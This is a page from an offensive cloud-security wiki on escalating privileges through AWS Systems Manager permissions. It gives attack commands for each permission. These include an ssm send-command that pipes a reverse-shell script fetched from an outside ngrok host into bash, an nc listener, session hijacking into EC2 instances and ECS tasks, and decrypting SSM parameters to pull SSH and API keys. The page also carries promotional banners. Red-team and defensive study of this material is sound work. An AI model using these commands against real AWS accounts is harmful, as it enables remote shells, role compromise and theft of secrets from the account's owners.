 # AWS - SSM Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## SSM

For more info about SSM check:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

An attacker with the permission **`ssm:SendCommand`** can **execute commands in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

### `ssm:StartSession`

An attacker with the permission **`ssm:StartSession`** can **start a SSH like session in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```

{% hint style="danger" %}
In order to start a session you need the **SessionManagerPlugin** installed: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

#### Privesc to ECS

When **ECS tasks** run with **`ExecuteCommand` enabled** users with enough permissions can use `ecs execute-command` to **execute a command** inside the container.\
According to [**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) this is done by creating a secure channel between the device you use to initiate the “_exec_“ command and the target container with SSM Session Manager.\
Therefore, users with `ssm:StartSession` will be able to **get a shell inside ECS tasks** with that option enabled just running:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../.gitbook/assets/image (55).png>)

**Potential Impact:** Direct privesc to the `ECS`IAM roles attached to running tasks with `ExecuteCommand` enabled.

### `ssm:ResumeSession`

An attacker with the permission **`ssm:ResumeSession`** can re-**start a SSH like session in instances** running the Amazon SSM Agent with a **disconnected** SSM session state and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running and disconected sessions.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

An attacker with the mentioned permissions is going to be able to list the **SSM parameters** and **read them in clear-text**. In these parameters you can frequently **find sensitive information** such as SSH keys or API keys.

```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Potential Impact:** Find sensitive information inside the parameters.

### `ssm:ListCommands`

An attacker with this permission can list all the **commands** sent and hopefully find **sensitive information** on them.

```
aws ssm list-commands
```

**Potential Impact:** Find sensitive information inside the command lines.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

An attacker with these permissions can list all the **commands** sent and **read the output** generated hopefully finding **sensitive information** on it.

```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Potential Impact:** Find sensitive information inside the output of the command lines.

### Codebuild

You can also use SSM to get inside a codebuild project being built:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
